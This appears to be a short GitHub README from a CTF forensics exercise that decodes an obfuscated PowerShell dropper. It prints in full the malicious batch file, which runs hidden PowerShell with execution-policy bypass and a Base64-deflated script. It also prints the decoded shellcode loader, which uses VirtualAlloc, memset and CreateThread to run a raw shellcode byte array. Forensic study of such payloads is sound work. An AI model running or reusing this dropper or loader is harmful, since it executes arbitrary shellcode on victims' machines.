



# Powshell-decode-payload
forensics-decoding-powershell-payloads





## 0x01 Read

```>>>cat test.bat 
@echo off
if %PROCESSOR_ARCHITECTURE%==x86 (powershell.exe -NoP -NonI -W Hidden -Exec Bypass -Command "Invoke-Expression $(New-Object IO.StreamReader ($(New-Object IO.Compression.DeflateStream ($(New-Object IO.MemoryStream (,$([Convert]::FromBase64String(\"nVVNj9s2EL37VxCGDjbWWlDfUowFkjQoEKAoCuwiORg+UBKVFSJLhiSn3rT979V78ihNeylyGXI4nDffpFOoB/V6vTq8a5r3p3PXj5v1Z9u3tgn8+7Jp1tujOl/ypi7UMJpxWux1nOTqfTv+NvbqQ92PF9O8aZqu2NzOft+pS92O6npbX27r1+3+h+381Fsz2qfnaSnFzuWG+2Wnvlm+7f5h+3byb+un4UvRj//H9smeBjtu/ou8RLV+vXK6KZFvytJ9ejlb5U46ue3f2apu67HuWuUUyv3VnKxaf6zbwF8rt5244WwKq3jy86UtcHNQ7tkMw/jcX1bO9cHpXr36Lsl6p6+e1liCeQn1dq8Ob19GezgenQEV1dfc4EIxkTiZSBFNpAxAMrC+7JJwIj5IBRJZqOFeAWnuAT+dSMqzeCIa9wIIIrIVSCAsddOI3gEZUkPdHHggpZZ7Bv4F8CWAhsbO4swHfFCCwFrJM0g9qOVwKEsktpRJIDJQDE1CUEEtgjSDaylIVUpsFhlKmYOSOYU16MYQ5NAtc/Evxq7CZQ2UnGkCG0EaMs9AMRCUMO6lwob0CgApruQEgI0kF3fnYIBSwY2KmWRsVsJKYShBXlIgB0bgC7B+IIIwlGRbqBXQMNjFWi5bqEWAT8DqQgRpIgWN2Rb5UhlI86XIFqAZgvG1+BzDPx1JlJp2Yyl3yFYppVVYD17xCOVLNhiWz3rAjQSsZWLZnbgSIe1+JoIArhX0IJU+YICsNOvGHgqBFzF8RFkyXjYXPWXNwcaZSKNQ0mljgfKxS0AM5whQRi+OI47CSvHYwF4mNTeLp8YXXWaSLcWasw+yTNoiYY3YxYCPFl27tF7FXiuljBnUwkTcyOZnYncbRI4uExtbSYnPSWGRkyU5RhwK6DjTjrpxSOaWB8vRSI00nEEwsSdFZsIINV8G64FkyxvBCfWXJ4iTPJcCyHN7J+IuI+eLVHCIOUeA8gGVccCWTJbAywDPwYnpPbtuaR9WK1zmgy8S35d5XJawkmXi+ZCx/zj7c0G/DTZB+TYZcZxnIcJKlleFxUsiyQEbLrPSXExxtpSWYTHKykih+HrzueZUsH34YnL8MnjAoeMkJ9QFa/V+VXW92jj1g947tXIbOzFDcf+LbT+Nz663nU7v7rbqD/w6t2/vMP97x41zvX/qJibwN9s7p97u1KR6cOrjTnlb9afqLqPbXppm/9fK+cp/67tPe/Jg51x3WPBfPY6mH93Hxtqzch9t0bWlwrem9d8=\")))), [IO.Compression.CompressionMode]::Decompress)), [Text.Encoding]::ASCII)).ReadToEnd();") else (%WinDir%\syswow64\windowspowershell\v1.0\powershell.exe -NoP -NonI -W Hidden -Exec Bypass -Command "Invoke-Expression $(New-Object IO.StreamReader ($(New-Object IO.Compression.DeflateStream ($(New-Object IO.MemoryStream (,$([Convert]::FromBase64String(\"nVVNj9s2EL37VxCGDjbWWlDfUowFkjQoEKAoCuwiORg+UBKVFSJLhiSn3rT979V78ihNeylyGXI4nDffpFOoB/V6vTq8a5r3p3PXj5v1Z9u3tgn8+7Jp1tujOl/ypi7UMJpxWux1nOTqfTv+NvbqQ92PF9O8aZqu2NzOft+pS92O6npbX27r1+3+h+381Fsz2qfnaSnFzuWG+2Wnvlm+7f5h+3byb+un4UvRj//H9smeBjtu/ou8RLV+vXK6KZFvytJ9ejlb5U46ue3f2apu67HuWuUUyv3VnKxaf6zbwF8rt5244WwKq3jy86UtcHNQ7tkMw/jcX1bO9cHpXr36Lsl6p6+e1liCeQn1dq8Ob19GezgenQEV1dfc4EIxkTiZSBFNpAxAMrC+7JJwIj5IBRJZqOFeAWnuAT+dSMqzeCIa9wIIIrIVSCAsddOI3gEZUkPdHHggpZZ7Bv4F8CWAhsbO4swHfFCCwFrJM0g9qOVwKEsktpRJIDJQDE1CUEEtgjSDaylIVUpsFhlKmYOSOYU16MYQ5NAtc/Evxq7CZQ2UnGkCG0EaMs9AMRCUMO6lwob0CgApruQEgI0kF3fnYIBSwY2KmWRsVsJKYShBXlIgB0bgC7B+IIIwlGRbqBXQMNjFWi5bqEWAT8DqQgRpIgWN2Rb5UhlI86XIFqAZgvG1+BzDPx1JlJp2Yyl3yFYppVVYD17xCOVLNhiWz3rAjQSsZWLZnbgSIe1+JoIArhX0IJU+YICsNOvGHgqBFzF8RFkyXjYXPWXNwcaZSKNQ0mljgfKxS0AM5whQRi+OI47CSvHYwF4mNTeLp8YXXWaSLcWasw+yTNoiYY3YxYCPFl27tF7FXiuljBnUwkTcyOZnYncbRI4uExtbSYnPSWGRkyU5RhwK6DjTjrpxSOaWB8vRSI00nEEwsSdFZsIINV8G64FkyxvBCfWXJ4iTPJcCyHN7J+IuI+eLVHCIOUeA8gGVccCWTJbAywDPwYnpPbtuaR9WK1zmgy8S35d5XJawkmXi+ZCx/zj7c0G/DTZB+TYZcZxnIcJKlleFxUsiyQEbLrPSXExxtpSWYTHKykih+HrzueZUsH34YnL8MnjAoeMkJ9QFa/V+VXW92jj1g947tXIbOzFDcf+LbT+Nz663nU7v7rbqD/w6t2/vMP97x41zvX/qJibwN9s7p97u1KR6cOrjTnlb9afqLqPbXppm/9fK+cp/67tPe/Jg51x3WPBfPY6mH93Hxtqzch9t0bWlwrem9d8=\")))), [IO.Compression.CompressionMode]::Decompress)), [Text.Encoding]::ASCII)).ReadToEnd();")
```
## 0x02 Get FromBase64String


```
nVVNj9s2EL37VxCGDjbWWlDfUowFkjQoEKAoCuwiORg+UBKVFSJLhiSn3rT979V78ihNeylyGXI4nDffpFOoB/V6vTq8a5r3p3PXj5v1Z9u3tgn8+7Jp1tujOl/ypi7UMJpxWux1nOTqfTv+NvbqQ92PF9O8aZqu2NzOft+pS92O6npbX27r1+3+h+381Fsz2qfnaSnFzuWG+2Wnvlm+7f5h+3byb+un4UvRj//H9smeBjtu/ou8RLV+vXK6KZFvytJ9ejlb5U46ue3f2apu67HuWuUUyv3VnKxaf6zbwF8rt5244WwKq3jy86UtcHNQ7tkMw/jcX1bO9cHpXr36Lsl6p6+e1liCeQn1dq8Ob19GezgenQEV1dfc4EIxkTiZSBFNpAxAMrC+7JJwIj5IBRJZqOFeAWnuAT+dSMqzeCIa9wIIIrIVSCAsddOI3gEZUkPdHHggpZZ7Bv4F8CWAhsbO4swHfFCCwFrJM0g9qOVwKEsktpRJIDJQDE1CUEEtgjSDaylIVUpsFhlKmYOSOYU16MYQ5NAtc/Evxq7CZQ2UnGkCG0EaMs9AMRCUMO6lwob0CgApruQEgI0kF3fnYIBSwY2KmWRsVsJKYShBXlIgB0bgC7B+IIIwlGRbqBXQMNjFWi5bqEWAT8DqQgRpIgWN2Rb5UhlI86XIFqAZgvG1+BzDPx1JlJp2Yyl3yFYppVVYD17xCOVLNhiWz3rAjQSsZWLZnbgSIe1+JoIArhX0IJU+YICsNOvGHgqBFzF8RFkyXjYXPWXNwcaZSKNQ0mljgfKxS0AM5whQRi+OI47CSvHYwF4mNTeLp8YXXWaSLcWasw+yTNoiYY3YxYCPFl27tF7FXiuljBnUwkTcyOZnYncbRI4uExtbSYnPSWGRkyU5RhwK6DjTjrpxSOaWB8vRSI00nEEwsSdFZsIINV8G64FkyxvBCfWXJ4iTPJcCyHN7J+IuI+eLVHCIOUeA8gGVccCWTJbAywDPwYnpPbtuaR9WK1zmgy8S35d5XJawkmXi+ZCx/zj7c0G/DTZB+TYZcZxnIcJKlleFxUsiyQEbLrPSXExxtpSWYTHKykih+HrzueZUsH34YnL8MnjAoeMkJ9QFa/V+VXW92jj1g947tXIbOzFDcf+LbT+Nz663nU7v7rbqD/w6t2/vMP97x41zvX/qJibwN9s7p97u1KR6cOrjTnlb9afqLqPbXppm/9fK+cp/67tPe/Jg51x3WPBfPY6mH93Hxtqzch9t0bWlwrem9d8=\")))), [IO.Compression.CompressionMode]::Decompress)), [Text.Encoding]::ASCII)).ReadToEnd();") else (%WinDir%\syswow64\windowspowershell\v1.0\powershell.exe -NoP -NonI -W Hidden -Exec Bypass -Command "Invoke-Expression $(New-Object IO.StreamReader ($(New-Object IO.Compression.DeflateStream ($(New-Object IO.MemoryStream (,$([Convert]::FromBase64String(\"nVVNj9s2EL37VxCGDjbWWlDfUowFkjQoEKAoCuwiORg+UBKVFSJLhiSn3rT979V78ihNeylyGXI4nDffpFOoB/V6vTq8a5r3p3PXj5v1Z9u3tgn8+7Jp1tujOl/ypi7UMJpxWux1nOTqfTv+NvbqQ92PF9O8aZqu2NzOft+pS92O6npbX27r1+3+h+381Fsz2qfnaSnFzuWG+2Wnvlm+7f5h+3byb+un4UvRj//H9smeBjtu/ou8RLV+vXK6KZFvytJ9ejlb5U46ue3f2apu67HuWuUUyv3VnKxaf6zbwF8rt5244WwKq3jy86UtcHNQ7tkMw/jcX1bO9cHpXr36Lsl6p6+e1liCeQn1dq8Ob19GezgenQEV1dfc4EIxkTiZSBFNpAxAMrC+7JJwIj5IBRJZqOFeAWnuAT+dSMqzeCIa9wIIIrIVSCAsddOI3gEZUkPdHHggpZZ7Bv4F8CWAhsbO4swHfFCCwFrJM0g9qOVwKEsktpRJIDJQDE1CUEEtgjSDaylIVUpsFhlKmYOSOYU16MYQ5NAtc/Evxq7CZQ2UnGkCG0EaMs9AMRCUMO6lwob0CgApruQEgI0kF3fnYIBSwY2KmWRsVsJKYShBXlIgB0bgC7B+IIIwlGRbqBXQMNjFWi5bqEWAT8DqQgRpIgWN2Rb5UhlI86XIFqAZgvG1+BzDPx1JlJp2Yyl3yFYppVVYD17xCOVLNhiWz3rAjQSsZWLZnbgSIe1+JoIArhX0IJU+YICsNOvGHgqBFzF8RFkyXjYXPWXNwcaZSKNQ0mljgfKxS0AM5whQRi+OI47CSvHYwF4mNTeLp8YXXWaSLcWasw+yTNoiYY3YxYCPFl27tF7FXiuljBnUwkTcyOZnYncbRI4uExtbSYnPSWGRkyU5RhwK6DjTjrpxSOaWB8vRSI00nEEwsSdFZsIINV8G64FkyxvBCfWXJ4iTPJcCyHN7J+IuI+eLVHCIOUeA8gGVccCWTJbAywDPwYnpPbtuaR9WK1zmgy8S35d5XJawkmXi+ZCx/zj7c0G/DTZB+TYZcZxnIcJKlleFxUsiyQEbLrPSXExxtpSWYTHKykih+HrzueZUsH34YnL8MnjAoeMkJ9QFa/V+VXW92jj1g947tXIbOzFDcf+LbT+Nz663nU7v7rbqD/w6t2/vMP97x41zvX/qJibwN9s7p97u1KR6cOrjTnlb9afqLqPbXppm/9fK+cp/67tPe/Jg51x3WPBfPY6mH93Hxtqzch9t0bWlwrem9d8=
```


## 0x03 decode payloads

#### powshell解密方法：
```
sal a New-Object;(a IO.StreamReader((a IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String('redacted-base64-encoded-string'),[IO.Compression.CompressionMode]::Decompress)),[Text.Encoding]::ASCII)).ReadToEnd() 

```

#### usage:

```
PS C:\Users\CTF> sal a New-Object;(a IO.StreamReader((a IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String('nVVNj9s2EL37VxCGDjbWWlDfUowFkjQoEKAoCuwiORg+UBKVFSJLhiSn3rT979V78ihNeylyGXI4nDffpFOoB/V6vTq8a5r3p3PXj5v1Z9
u3tgn8+7Jp1tujOl/ypi7UMJpxWux1nOTqfTv+NvbqQ92PF9O8aZqu2NzOft+pS92O6npbX27r1+3+h+381Fsz2qfnaSnFzuWG+2Wnvlm+7f5h+3byb+un4UvRj//H9smeBjtu/ou8RLV+vXK6KZFvytJ9ejlb5U46ue3f2apu67HuWuUUyv3VnKxaf6zbwF8rt5244WwKq3jy86UtcHNQ7tkMw/jcX1bO9cHpXr36Lsl
6p6+e1liCeQn1dq8Ob19GezgenQEV1dfc4EIxkTiZSBFNpAxAMrC+7JJwIj5IBRJZqOFeAWnuAT+dSMqzeCIa9wIIIrIVSCAsddOI3gEZUkPdHHggpZZ7Bv4F8CWAhsbO4swHfFCCwFrJM0g9qOVwKEsktpRJIDJQDE1CUEEtgjSDaylIVUpsFhlKmYOSOYU16MYQ5NAtc/Evxq7CZQ2UnGkCG0EaMs9AMRCUMO6lwob0
CgApruQEgI0kF3fnYIBSwY2KmWRsVsJKYShBXlIgB0bgC7B+IIIwlGRbqBXQMNjFWi5bqEWAT8DqQgRpIgWN2Rb5UhlI86XIFqAZgvG1+BzDPx1JlJp2Yyl3yFYppVVYD17xCOVLNhiWz3rAjQSsZWLZnbgSIe1+JoIArhX0IJU+YICsNOvGHgqBFzF8RFkyXjYXPWXNwcaZSKNQ0mljgfKxS0AM5whQRi+OI47CSvHYw
F4mNTeLp8YXXWaSLcWasw+yTNoiYY3YxYCPFl27tF7FXiuljBnUwkTcyOZnYncbRI4uExtbSYnPSWGRkyU5RhwK6DjTjrpxSOaWB8vRSI00nEEwsSdFZsIINV8G64FkyxvBCfWXJ4iTPJcCyHN7J+IuI+eLVHCIOUeA8gGVccCWTJbAywDPwYnpPbtuaR9WK1zmgy8S35d5XJawkmXi+ZCx/zj7c0G/DTZB+TYZcZxnIc
JKlleFxUsiyQEbLrPSXExxtpSWYTHKykih+HrzueZUsH34YnL8MnjAoeMkJ9QFa/V+VXW92jj1g947tXIbOzFDcf+LbT+Nz663nU7v7rbqD/w6t2/vMP97x41zvX/qJibwN9s7p97u1KR6cOrjTnlb9afqLqPbXppm/9fK+cp/67tPe/Jg51x3WPBfPY6mH93Hxtqzch9t0bWlwrem9d8='),[IO.Compression.Comp
ressionMode]::Decompress)),[Text.Encoding]::ASCII)).ReadToEnd()
$c = @"
[DllImport("kernel32.dll")] public static extern IntPtr VirtualAlloc(IntPtr w, uint x, uint y, uint z);
[DllImport("kernel32.dll")] public static extern IntPtr CreateThread(IntPtr u, uint v, IntPtr w, IntPtr x, uint y, IntPtr z);
[DllImport("msvcrt.dll")] public static extern IntPtr memset(IntPtr x, uint y, uint z);
"@
$o = Add-Type -memberDefinition $c -Name "Win32" -namespace Win32Functions -passthru
$x=$o::VirtualAlloc(0,0x1000,0x3000,0x40); [Byte[]]$sc = 0xba,0x3c,0x67,0xc5,0xd3,0xd9,0xc2,0xd9,0x74,0x24,0xf4,0x5e,0x33,0xc9,0xb1,0x48,0x83,0xc6,0x04,0x31,0x56,0x0f,0x03,0x56,0x33,0x85,0x30,0x2f,0xa3,0xcb,0xbb,0xd0,0x33,0xac,0x32,0x35,
0x02,0xec,0x21,0x3d,0x34,0xdc,0x22,0x13,0xb8,0x97,0x67,0x80,0x4b,0xd5,0xaf,0xa7,0xfc,0x50,0x96,0x86,0xfd,0xc9,0xea,0x89,0x7d,0x10,0x3f,0x6a,0xbc,0xdb,0x32,0x6b,0xf9,0x06,0xbe,0x39,0x52,0x4c,0x6d,0xae,0xd7,0x18,0xae,0x45,0xab,0x8d,0xb6,0x
ba,0x7b,0xaf,0x97,0x6c,0xf0,0xf6,0x37,0x8e,0xd5,0x82,0x71,0x88,0x3a,0xae,0xc8,0x23,0x88,0x44,0xcb,0xe5,0xc1,0xa5,0x60,0xc8,0xee,0x57,0x78,0x0c,0xc8,0x87,0x0f,0x64,0x2b,0x35,0x08,0xb3,0x56,0xe1,0x9d,0x20,0xf0,0x62,0x05,0x8d,0x01,0xa6,0xd0
,0x46,0x0d,0x03,0x96,0x01,0x11,0x92,0x7b,0x3a,0x2d,0x1f,0x7a,0xed,0xa4,0x5b,0x59,0x29,0xed,0x38,0xc0,0x68,0x4b,0xee,0xfd,0x6b,0x34,0x4f,0x58,0xe7,0xd8,0x84,0xd1,0xaa,0xb4,0x69,0xd8,0x54,0x44,0xe6,0x6b,0x26,0x76,0xa9,0xc7,0xa0,0x3a,0x22,0
xce,0x37,0x3d,0x19,0xb6,0xa8,0xc0,0xa2,0xc7,0xe1,0x06,0xf6,0x97,0x99,0xaf,0x77,0x7c,0x5a,0x50,0xa2,0xe9,0x52,0xf7,0x1d,0x0c,0x9f,0x47,0xce,0x90,0x30,0x2f,0x04,0x1f,0x6e,0x4f,0x27,0xf5,0x07,0xe7,0xda,0xf6,0x36,0xab,0x53,0x10,0x52,0x43,0x3
2,0x8a,0xcb,0xa1,0x61,0x03,0x6b,0xda,0x43,0x3b,0x1b,0x93,0x85,0xfc,0x24,0x24,0x80,0xaa,0xb2,0xae,0xc7,0x6e,0xa2,0xb1,0xcd,0xc6,0xb3,0x25,0x9b,0x86,0xf6,0xd4,0x9c,0x82,0x63,0x16,0x09,0x29,0x22,0x41,0xa5,0x33,0x13,0xa5,0x6a,0xcb,0x76,0xbe,
0xa3,0x59,0x39,0xa8,0xcb,0x8d,0xb9,0x28,0x9a,0xc7,0xb9,0x40,0x7a,0xbc,0xe9,0x75,0x85,0x69,0x9e,0x26,0x10,0x92,0xf7,0x9b,0xb3,0xfa,0xf5,0xc2,0xf4,0xa4,0x06,0x21,0x05,0x98,0xd0,0x0f,0x73,0xf0,0xe0;
for ($i=0;$i -le ($sc.Length-1);$i++) {$o::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1) | out-null;}
$z=$o::CreateThread(0,0,$x,0,0,0); Start-Sleep -Second 100000
PS C:\Users\CTF>

```

### The Vb Code:
```
$c = @"
[DllImport("kernel32.dll")] public static extern IntPtr VirtualAlloc(IntPtr w, uint x, uint y, uint z);
[DllImport("kernel32.dll")] public static extern IntPtr CreateThread(IntPtr u, uint v, IntPtr w, IntPtr x, uint y, IntPtr z);
[DllImport("msvcrt.dll")] public static extern IntPtr memset(IntPtr x, uint y, uint z);
"@
$o = Add-Type -memberDefinition $c -Name "Win32" -namespace Win32Functions -passthru
$x=$o::VirtualAlloc(0,0x1000,0x3000,0x40); [Byte[]]$sc = 0xba,0x3c,0x67,0xc5,0xd3,0xd9,0xc2,0xd9,0x74,0x24,0xf4,0x5e,0x33,0xc9,0xb1,0x48,0x83,0xc6,0x04,0x31,0x56,0x0f,0x03,0x56,0x33,0x85,0x30,0x2f,0xa3,0xcb,0xbb,0xd0,0x33,0xac,0x32,0x35,
0x02,0xec,0x21,0x3d,0x34,0xdc,0x22,0x13,0xb8,0x97,0x67,0x80,0x4b,0xd5,0xaf,0xa7,0xfc,0x50,0x96,0x86,0xfd,0xc9,0xea,0x89,0x7d,0x10,0x3f,0x6a,0xbc,0xdb,0x32,0x6b,0xf9,0x06,0xbe,0x39,0x52,0x4c,0x6d,0xae,0xd7,0x18,0xae,0x45,0xab,0x8d,0xb6,0x
ba,0x7b,0xaf,0x97,0x6c,0xf0,0xf6,0x37,0x8e,0xd5,0x82,0x71,0x88,0x3a,0xae,0xc8,0x23,0x88,0x44,0xcb,0xe5,0xc1,0xa5,0x60,0xc8,0xee,0x57,0x78,0x0c,0xc8,0x87,0x0f,0x64,0x2b,0x35,0x08,0xb3,0x56,0xe1,0x9d,0x20,0xf0,0x62,0x05,0x8d,0x01,0xa6,0xd0
,0x46,0x0d,0x03,0x96,0x01,0x11,0x92,0x7b,0x3a,0x2d,0x1f,0x7a,0xed,0xa4,0x5b,0x59,0x29,0xed,0x38,0xc0,0x68,0x4b,0xee,0xfd,0x6b,0x34,0x4f,0x58,0xe7,0xd8,0x84,0xd1,0xaa,0xb4,0x69,0xd8,0x54,0x44,0xe6,0x6b,0x26,0x76,0xa9,0xc7,0xa0,0x3a,0x22,0
xce,0x37,0x3d,0x19,0xb6,0xa8,0xc0,0xa2,0xc7,0xe1,0x06,0xf6,0x97,0x99,0xaf,0x77,0x7c,0x5a,0x50,0xa2,0xe9,0x52,0xf7,0x1d,0x0c,0x9f,0x47,0xce,0x90,0x30,0x2f,0x04,0x1f,0x6e,0x4f,0x27,0xf5,0x07,0xe7,0xda,0xf6,0x36,0xab,0x53,0x10,0x52,0x43,0x3
2,0x8a,0xcb,0xa1,0x61,0x03,0x6b,0xda,0x43,0x3b,0x1b,0x93,0x85,0xfc,0x24,0x24,0x80,0xaa,0xb2,0xae,0xc7,0x6e,0xa2,0xb1,0xcd,0xc6,0xb3,0x25,0x9b,0x86,0xf6,0xd4,0x9c,0x82,0x63,0x16,0x09,0x29,0x22,0x41,0xa5,0x33,0x13,0xa5,0x6a,0xcb,0x76,0xbe,
0xa3,0x59,0x39,0xa8,0xcb,0x8d,0xb9,0x28,0x9a,0xc7,0xb9,0x40,0x7a,0xbc,0xe9,0x75,0x85,0x69,0x9e,0x26,0x10,0x92,0xf7,0x9b,0xb3,0xfa,0xf5,0xc2,0xf4,0xa4,0x06,0x21,0x05,0x98,0xd0,0x0f,0x73,0xf0,0xe0;
for ($i=0;$i -le ($sc.Length-1);$i++) {$o::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1) | out-null;}
$z=$o::CreateThread(0,0,$x,0,0,0); Start-Sleep -Second 100000

```

## 参考文章：

https://threat.tevora.com/5-minute-forensics-decoding-powershell-payloads/
